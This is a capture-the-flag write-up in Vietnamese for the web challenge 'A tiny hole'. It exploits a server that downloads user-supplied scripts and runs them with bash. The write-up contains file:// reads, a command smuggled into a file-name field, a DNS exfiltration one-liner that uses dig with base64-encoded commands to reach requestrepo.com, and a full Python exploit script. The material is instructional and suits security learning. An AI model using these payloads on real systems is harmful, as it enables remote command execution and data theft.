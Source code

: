 # A tiny hole 

![description](images/description.png)

Đọc sơ qua source code thì mình có thể dễ dàng đoán được server sẽ thực hiện việc download script từ URL mình nhập vào và thực thi nó. Sau khi test thử một vài đường link thì mình nhận ra không thể kết nối ra bên ngoài. 

Muốn chạy được script thì mình phải bypass qua được đoạn check ở hàm `download_script` trước:

```python
def download_script(script_path, command_log, url):
	try:
		script_link = url
	except:
		return "missing url"
	r = requests.Session()
	r.mount('file://', FileAdapter())
	try:
		result = r.get(script_link)
	except:
		return "Oh no! Lost internet"
	with open(script_path, 'wb') as f:
		f.write(result.content)
		run_script(script_path, command_log)
```

Để ý thấy dòng `r.mount('file://', FileAdapter())`, mình thử nhập url là `file:///etc/passwd` thì bypass được hàm này.

Tiếp đến là hàm `run_script`:

```python
def run_script(script_path, command_log):
	lf = open(command_log, 'wb+')
	command = subprocess.Popen(['bash', script_path], stderr=lf, stdout=lf, universal_newlines=True)
	return "Run successfully"
```

Đoạn code trên sẽ chạy lệnh `bash` với file `script_path` được truyền vào, sau đó cả output lẫn error đều được ghi vào file `command_log`

Nội dung của file `script_path` được lấy từ url mình cung cấp nhưng do không thể connect ra bên ngoài nên việc chèn reverse shell vào đây là không khả thi.

Mình control được 2 param đó là `script_path` và `command_log` từ đó mình có thể lợi dụng chính lệnh `bash` để thực thi lệnh tuỳ ý.

```console
$ echo kemdau > 'date;
$ bash 'date;' 2> command_log
$ cat command_log
date;: line 1: kemdau: command not found
$ bash command_log
Thu Nov  4 02:48:02 PM +07 2021
```

Ở đây mình dùng `2>` để chuyển hướng `stderr` vào file như hàm `run_script` ở trên.

Ý tưởng của mình là tạo 1 file với tên là câu lệnh cần chạy rồi lợi dụng ghi error của lệnh `bash` vào file `command_log` và sau đó `bash command_log` là lệnh sẽ được thực thi.

***ưtf is that???***

![what](images/what.jpg)


Vậy còn lệnh `cat /flag.txt` thì sao? Tên file trong linux thì làm gì đặt được dấu `/`? Có rất nhiều cách để bypass, mình chọn encode sang `base64`.

```console
$ echo "cat /flag.txt" | base64
Y2F0IC9mbGFnLnR4dAo=
$ echo Y2F0IC9mbGFnLnR4dAo= | base64 -d | bash
cat: /flag.txt: No such file or directory
```

Nhưng không có internet thì làm sao mà gửi flag về? Với những chall kiểu như này mình sẽ thử dùng DNS để bypass.

Mình sử dụng lệnh `dig` để query và [requestrepo.com](https://requestrepo.com) để hứng DNS.

Và đây là payload của mình:

```console
$ dig $(echo Y2F0IC9mbGFnLnR4dAo= | base64 -d | bash).jrl0lymn.requestrepo.com
```

Còn đây là script của mình:

```python
import requests
import random
import string
from base64 import b64encode

URL = 'http://chal17.web.letspentest.org/'

def send_payload(dir, name, url, log):
    payload = {
        'script_dir': dir,
        'script_name': name,
        'script_url': url,
        'command_log_file': log
    }
    r = requests.post(URL + '/runScript', data=payload)
    print(r.text)

def randstr():
    return ''.join(random.choices(string.ascii_letters + string.digits, k=10))

core_payload = b'cat /flag.txt'
core_payload = b64encode(core_payload).decode()

dirname = randstr()

send_payload(dirname, f'\ndig $(echo {core_payload} | base64 -d | bash).jrl0lymn.requestrepo.com;', 'file:///etc/hosts', 'log')
send_payload(dirname, 'bruh', 'file:///src/logs/log.txt', 'log1')
```

Hứng DNS:

![requestrepo](images/requestrepo.png)

Flag: `Flag{CookieWarrior_Please_Think_Out_Of_The_Box}`
